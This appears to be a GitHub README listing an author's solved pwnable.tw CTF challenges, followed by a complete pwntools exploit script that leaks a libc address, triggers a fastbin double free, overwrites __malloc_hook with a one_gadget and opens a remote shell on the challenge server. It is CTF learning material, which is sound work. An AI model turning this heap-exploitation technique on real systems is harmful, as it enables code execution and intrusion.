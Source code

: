 # PWNABLE.TW

>Author: Nigma

- #### Link pwnable.tw profile: [https://pwnable.tw/user/30002](https://pwnable.tw/user/30002)

## List challenge solved

|    Số thứ tự    |  Thử thách  | Writeup                                                       | Hoàn thiện |
| :-------------: | :---------: | :-----------------------------------------------------------: |:----------:|
|       01        |    Start    | [Start](./1_Start)                                            |✅         |         
|       02        |     orw     | [orw](./2_orw)                                                |✅         |
|       03        |CVE-2018-1160| [CVE-2018-1160](./3_CVE-2018-1160)                            |❌         |
|       04        |    calc     | [calc](./4_calc)                                              |✅         |
|       05        |    3x17     | [3x17](./5_3x17)                                              |✅         |
|       06        |  dubblesort | [dubblesort](./6_dubblesort)                                  |✅         |
|       07        |  hacknote   | [hacknote](./7_hacknote)                                      |✅         |
|       08        |Silver Bullet| [Silver Bullet](https://github.com/NigmaZ/Pwnable/tree/main/Pwnable.tw/8_Silver%20Bullet)                            |✅         |
|       09        |  applestore | [applestore](./9_applestore)                                  |✅         |
|       10        |   Re-alloc  | [Re-alloc](./10_Re-alloc)                                     |❌         |


```python
#!/usr/bin/env python3
from pwn import *
p = remote('chall.pwnable.tw', '10203')

elf = ELF('./vuln')
libc = ELF('./libc.so.6')
# context.update(binary=elf, log_level='DEBUG')
# p = elf.process()
# gdb.attach(p, '''
# 	breakrva 0x10ba
# 	breakrva 0x10c6
# 	breakrva 0x10d2
# 	breakrva 0x10de
# ''')
# v0 - check flower is existing
# v0[1] - name flower
# v0[2] - color flower // 24

def raiseFlower(length, name, color): 
	p.sendlineafter(b'choice : ', b'1')
	print(p.recvuntil(b'name :'))
	p.sendline(str(int(length)).encode())
	print(p.recvuntil(b'flower :'))
	p.sendline(name)
	print(p.recvuntil(b'flower :'))
	p.sendline(color)
	return

def listFlower():
	p.sendlineafter(b'choice : ', b'2')
	return

def removeFlower(idx):
	p.sendlineafter(b'choice : ', b'3')
	print(p.recvuntil(b'garden:'))
	p.sendline(str(int(idx)).encode())
	return

def deleteGarden():
	p.sendlineafter(b'choice : ', b'4')
	return

############################ leak libc ###################################
# libc 2.23 not delete data (ptr manager, junk) when free and malloc again
raiseFlower(0x100, b'A' * 0x10, b'B' * 0x10)
raiseFlower(0x60, b'C' * 0x10, b'D' * 0x10)
raiseFlower(0x60, b'E' * 0x10, b'F' * 0x10)
raiseFlower(0x60, b'G' * 0x10, b'H' * 0x10)

removeFlower(0)
deleteGarden()

# gdb.attach(p, '''
# 	breakrva 0x10ba
# 	breakrva 0x10c6
# 	breakrva 0x10d2
# 	breakrva 0x10de
# ''')

raiseFlower(0x100, b'A' * 0x7, b'B' * 0x10)
listFlower()

p.recvuntil(b'AAAAAAA\n')
leak = (p.recv(6)).ljust(8, b'\x00')
main_arena88 = u64(leak)
libc.address = main_arena88 - 88 - libc.symbols['main_arena']
malloc_hook = libc.symbols['__malloc_hook']
log.info('libc base address:      ' + hex(libc.address))
log.info('&__malloc_hook address: ' + hex(malloc_hook))

######################### trigger double free #############################

removeFlower(1)
removeFlower(2)
removeFlower(1)
deleteGarden()


fake_chunk = malloc_hook - 0x23 # junk 
log.info('fake_chunk address: ' + hex(fake_chunk))
listFlower()
raiseFlower(0x60, p64(fake_chunk), b'B' * 0x10) #### value target
raiseFlower(0x60, b'A' * 0x7, b'B' * 0x10)
raiseFlower(0x60, b'A' * 0x7, b'B' * 0x10)

#### done trigger bug
one_gadget_offset = 0xef6c4
one_gadget = libc.address + one_gadget_offset
log.info('One gadget : ' + hex(one_gadget))
raiseFlower(0x60, b'A' * 0x13 + p64(one_gadget), b'B' * 0x10)

# trigger malloc_hook such that it satisfies the one gadget constrains
removeFlower(2)
removeFlower(2)
# interactive shell
p.interactive()
```
